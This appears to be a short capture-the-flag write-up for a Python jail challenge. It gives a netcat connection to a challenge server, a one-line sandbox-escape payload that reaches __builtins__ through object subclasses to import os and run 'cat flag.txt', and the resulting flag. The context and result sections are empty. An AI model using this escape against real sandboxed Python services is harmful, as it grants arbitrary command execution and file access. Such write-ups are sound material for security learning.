

**Context**


**Connection** `nc 16.16.65.31 31000`

I use this payload
```python
print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt'))
```

**Result**



**FLAG:** `acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}`
